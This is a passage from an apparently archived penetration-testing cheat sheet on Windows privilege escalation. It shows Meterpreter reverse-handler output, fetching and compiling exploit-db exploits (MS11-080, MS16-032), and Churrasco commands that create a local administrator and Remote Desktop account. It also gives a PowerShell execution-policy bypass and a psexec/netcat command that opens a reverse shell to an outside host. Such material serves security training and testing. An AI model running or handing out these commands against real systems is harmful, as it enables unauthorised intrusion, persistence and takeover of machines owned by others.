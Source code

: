          [*] Started reverse TCP handler on 1.2.3.4:443 
         [*] Starting the payload handler...
         [*] Sending stage (957487 bytes) to 1.2.3.5
         [*] Meterpreter session 1 opened (1.2.3.4:443 -> 1.2.3.5:1063) at 2017-09-25 13:10:55 -0700

*   Windows privledge escalation exploits are often written in Python. So, it is necessary to compile the using pyinstaller.py into an executable and upload them to the remote server.

         pip install pyinstaller
         wget -O exploit.py http://www.exploit-db.com/download/31853  
         python pyinstaller.py --onefile exploit.py

*   Windows Server 2003 and IIS 6.0 privledge escalation using impersonation:

    [https://www.exploit-db.com/exploits/6705/](http://web.archive.org/web/20171113221652/https://www.exploit-db.com/exploits/6705/)

    [https://github.com/Re4son/Churrasco](http://web.archive.org/web/20171113221652/https://github.com/Re4son/Churrasco)

         c:\Inetpub>churrasco
         churrasco
         /churrasco/-->Usage: Churrasco.exe [-d] "command to run"

         c:\Inetpub>churrasco -d "net user /add <username> <password>"
         c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
         c:\Inetpub>churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"

*   Windows MS11-080 - [http://www.exploit-db.com/exploits/18176/](http://web.archive.org/web/20171113221652/http://www.exploit-db.com/exploits/18176/)

          python pyinstaller.py --onefile ms11-080.py  
          mx11-080.exe -O XP

*   Powershell Exploits - You may find that some Windows privledge escalation exploits are written in Powershell. You may not have an interactive shell that allows you to enter the powershell prompt. Once the powershell script is uploaded to the server, here is a quick one liner to run a powershell command from a basic (cmd.exe) shell:

    MS16-032 [https://www.exploit-db.com/exploits/39719/](http://web.archive.org/web/20171113221652/https://www.exploit-db.com/exploits/39719/)

    `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"`

*   Powershell Priv Escalation Tools [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](http://web.archive.org/web/20171113221652/https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

*   Windows Run As - Switching users in linux is trival with the `SU` command. However, an equivalent command does not exist in Windows. Here are 3 ways to run a command as a different user in Windows.

    *   Sysinternals psexec is a handy tool for running a command on a remote or local server as a specific user, given you have thier username and password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Psexec (on a 64 bit system).

             C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 
